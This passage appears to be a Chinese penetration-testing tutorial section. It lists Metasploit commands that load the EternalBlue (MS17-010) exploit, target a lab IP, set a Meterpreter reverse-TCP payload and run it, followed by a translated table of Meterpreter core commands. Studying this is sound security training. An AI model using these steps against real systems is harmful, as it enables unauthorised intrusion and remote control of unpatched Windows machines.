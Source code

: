 ### 八. 漏洞攻击

1. 加载 ms17-010 攻击模块

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. 设置目标主机地址

   ```bash
   set rhosts 192.168.97.128
   ```

3. 设置连接方式为反向连接

   ```bash
   set payload windows/x64/meterpreter/reverse_tcp
   ```

4. 运行

   ```bash
   run
   ```

### Meterpreter 的命令用法

```bash
==========================================
核心命令：
==========================================
命令                           说明
-------                       ------------
?                             帮助菜单
background                    把当前会话挂到后台运行
bg                            background命令的别名
bgkill                        杀死后台meterpreter 脚本
bglist                        列出正在运行的后台脚本
bgrun                         执行一个meterpreter脚本作为后台线程
channel                       显示信息或控制活动频道
close                         关闭一个频道
detach                        分离Meterpreter会话（用于 http/https）
disable_unicode_encoding      禁用 unicode 字符串的编码
enable_unicode_encoding       启用 unicode 字符串的编码
exit                          终止 Meterpreter 会话
get_timeouts                  获取当前会话超时值
guid                          获取会话 GUID
help                          帮助菜单
info                          显示有关 Post 模块的信息
irb                           在当前会话中打开一个交互式 Ruby shell
load                          加载一个或多个 Meterpreter 扩展
machine_id                    获取连接到会话的机器的 MSF ID
migrate                       将服务器迁移到另一个进程
pivot                         管理枢轴侦听器
pry                           在当前会话上打开 Pry 调试器
quit                          终止 Meterpreter 会话
read                          从通道读取数据
resource                      运行存储在文件中的命令
run                           执行一个 Meterpreter 脚本或 Post 模块
secure                       （重新）协商会话上的 TLV 数据包加密
sessions                      快速切换到另一个会话
set_timeouts                  设置当前会话超时值
sleep                         强制 Meterpreter 安静，然后重新建立会话
ssl_verify                    修改 SSL 证书验证设置
transport                     管理运输机制
use                           不推荐使用的load命令别名
uuid                          获取当前会话的 UUID
```